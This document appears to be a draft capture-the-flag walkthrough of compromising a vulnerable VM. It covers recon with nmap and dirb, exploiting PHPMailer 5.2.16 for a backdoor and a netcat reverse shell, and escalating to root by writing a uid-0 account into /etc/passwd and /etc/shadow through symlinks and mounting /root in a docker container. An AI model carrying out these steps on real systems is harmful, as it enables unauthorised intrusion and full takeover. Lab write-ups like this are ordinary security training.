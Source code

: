#this is a draft ... but yea i completed it


`sudo nmap -sn 192.168.110.0/24`

- Target IP address: 192.168.110.20
- Service Discovery

```
$ sudo nmap -p1-65535 -A -T4 -sS 192.168.110.20
Port	Service	Product	Hostname
22	ssh	OpenSSH	
80	http	Apache httpd	
```
- Path:

```
/contact.php
/index.php
/about.php
```
- recon:
`$ dirb http://192.168.110.20`

- found:
```
/about	
/contact	
/index	
/robots.txt	
/mailer/LICENSE	GNU GPL text
/mailer/examples/index.html	PHPMailer code examples
```

- This is PHPMailer. 
`/mailer/VERSION	5.2.16`

# Getting shell

- Found this in about.php:
```
$ searchsploit phpmailer
DD - Searchsploit results
Searchsploit results phpMailer
The exploit php/webapps/40974.py
```

```
target	http://192.168.110.20/contact
```

- Try:
`$ pip2 install requests_toolbelt`

- Listener:
`$ nc -lvp 4444`

- DD - Running Anarcoder exploit
- Backdoor: http://192.168.110.20/backdoor.php

-
`$ python -c 'import pty; pty.spawn("/bin/bash")'`

- Looking at /etc/passwd found smith

`SU Smith`

- SSH: Appears to be a private key pointing to orwell@donkeydocker. 

`SSH login`

```
$ id
Gives: uid=1000(orwell) gid=1000(orwell) groups=101(docker),1000(orwell).
```

```
$ docker container ls
DD - Docker list
Docker list
```

```
$ cd /home/smith/
$ mv flag.txt flag.txt.bak
$ ln -s /etc/passwd flag.txt
```

```
$ docker restart donkeydocker
```
- Adding myself as root:

```
$ echo 'reedphish:x:0:0::/root:/bin/bash' >> flag.txt
```

```
$ rm flag.txt
$ ln -s /etc/shadow flag.txt
```

```
$ echo 'reedphish:R2JhrPXIXqW3g:17251:0:99999:7:::' >> flag.txt
```

```
$ cd ~
$ mkdir hack
$ cd hack
$ touch Dockerfile
$ vi Dockerfile
In Dockerfile Iadded
```
```
$ docker run -v /root:/hack -t hackerimage /bin/sh -c 'ls -la'
$ docker run -v /root:/hack -t hackerimage /bin/sh -c 'cat flag.txt'
```